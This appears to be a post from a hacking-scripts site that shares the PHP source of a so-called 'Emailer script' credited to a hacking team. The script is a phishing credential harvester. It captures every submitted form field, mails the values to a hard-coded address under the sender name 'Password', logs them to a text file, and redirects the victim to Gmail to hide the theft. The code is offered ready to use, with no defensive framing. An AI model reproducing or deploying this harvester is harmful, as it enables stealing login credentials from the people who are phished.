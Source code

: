 ```yaml
---
id: 237
title: Emailer script
author: admin
layout: post
guid: http://hackingscripts.com/?p=237
permalink: /emailer-script/
categories:
  - PHP
tags:
  - emailer
  - PHP
---
```

Emailer script &#8211; Coded by Hangaw_HawlerY of H4KurD-TeaM

### Emailer Script Source Code

{% highlight php %}<?php

/* 
H4KurD-TeaM
www.h4kurd.com
Coded By : Hangaw_HawlerY
Email: Hangaw_HawlerY@Yahoo.com , Hangaw_HawlerY@Hotmail.com 
All Right Reserved
*/

header ('Location: https://www.gmail.com');

$posts        = '';
foreach($_POST as $k =&gt; $v){
    $posts .= '$_POST['.$k.'] = '.$v."\n";
}

$posts       .= "---------------------------------------------------\n";
$emailto    = 'pramod.sin321@gmail.com';
$subject    = $_SERVER['HTTP_HOST']."-".$_SEREVER['SERVER_NAME'];
$from        = "From: Password &lt;h4kurd.team@gmail.com&gt;";
$body        = '
'.$posts.'
';

@mail($emailto, $subject, $body, $from);
$handle = @fopen("h4kurd.txt", "a+");
@fwrite($handle, $posts);
fclose($handle);
?>
{% endhighlight %}
